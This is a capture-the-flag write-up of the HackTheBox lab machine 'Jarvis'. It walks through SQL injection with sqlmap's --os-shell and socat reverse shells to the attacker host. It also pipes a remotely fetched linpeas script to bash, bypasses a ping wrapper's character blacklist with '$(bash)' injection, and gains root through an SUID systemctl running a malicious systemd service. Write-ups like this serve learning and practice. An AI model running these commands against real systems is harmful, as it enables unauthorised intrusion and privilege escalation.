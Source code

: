 ```yaml
---
title: "Jarvis - HackTheBox"
date: 2019-11-09T18:07:25+02:00
tags: [SQL injection, systemctl, misconfiguration, SUID]
---
```


## Information gathering

Let's run a quick nmap scan:
```
$ nmap -A -T4 10.10.10.143
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-22 20:09 EDT
Nmap scan report for 10.10.10.143
Host is up (0.056s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.76 seconds
```

## Exploration

The website is a hotel presentation and trying to run `gobuster` on it get us
banned and the site will respond with this message:

> Hey you have been banned for 90 seconds, don't be bad

Nevermind, let's wait a bit.

In the rooms section the data for each room is 
Exploring the website, we can see that the link to each room uses a `GET`
parameter to indicate the number of the room, for example:
```
http://10.10.10.143/room.php?cod=1
```
We can try to see if it's vulnerable to `SQL` injection by visiting the
following urls:
```
http://10.10.10.143/room.php?cod=1337 or 1=1
```
It will return the first room even if the `cod` parameter does not match.

## Getting a shell

We can try to get a shell using `sqlmap` by using the `--os-shell` option:
```
sqlmap -u http://10.10.10.143/room.php?cod=1 --os-shell --random-agent
```
![](/images/hackthebox/jarvis/www-data-shell.png)

And it does work! We have a shell as `www-data` user.

We can get a better shell thant this one by running a `socat` listener on our
machine with this command:
```
socat file:`tty`,raw,echo=0 tcp-listen:1337
```
and connect to it with this command:
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.8:1337
```

## Further enumeration

The following step is to run an enumeration script on the machine, I choose 
[linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite).

So after running a web server on our machine with `python2.7 -m SimpleHTTPServer
8080` let's run the script on the remote machine with `curl
http://10.10.14.8:8080/linpeas.sh | bash`.

There seems to be an interesting command that we can run as the user `pepper`
without providing it's password:
![](/images/hackthebox/jarvis/simpler.png)

Here's the code of `simpler.py` (I removed the useless parts):
```python
#!/usr/bin/env python3
from datetime import datetime
import sys
import os
from os import listdir
import re

def show_help():
    message='''
********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
    '''
    print(message)

def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

It's a wrapper to the `ping` command, and it basically pings any host that we
provide as input. There are some characters that we can not use as input, but
luckily we can use `$`, `(` and `)`.  
We can easily get a shell by using `$(bash)` as the ip to connect to:
![](/images/hackthebox/jarvis/user-shell.png)

And then let's get the flag:
```
pepper@jarvis:/var/www/Admin-Utilities$ cat /home/pepper/user.txt
2afa36c4f05b37b34259c93551f5c44f
```

## Privilege escalation

By running again `linpeas.sh` we stumble upon an unusual executable who has the
`SUID` bit set, `systemcl`. We can exploit this to run any command as `root`, so
let's create a `systemd` service file that will gets us a reverse shell:
```
[Service]
Type=oneshot
ExecStart=/bin/bash -c "socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.8:1338"
[Install]
WantedBy=multi-user.target
```
And after setting up our `socat` listener, let's install and run the service:
```
$ systemctl link /home/pepper/shell.service
$ systemctl enable --now /home/pepper/shell.service
```

And here's our shell! Let's get the flag:
```
$ socat file:`tty`,raw,echo=0 tcp-listen:1338
root@jarvis:/# cat /root/root.txt
d41d8cd98f00b204e9800998ecf84271
```

See you in the next one! Thanks for reading!
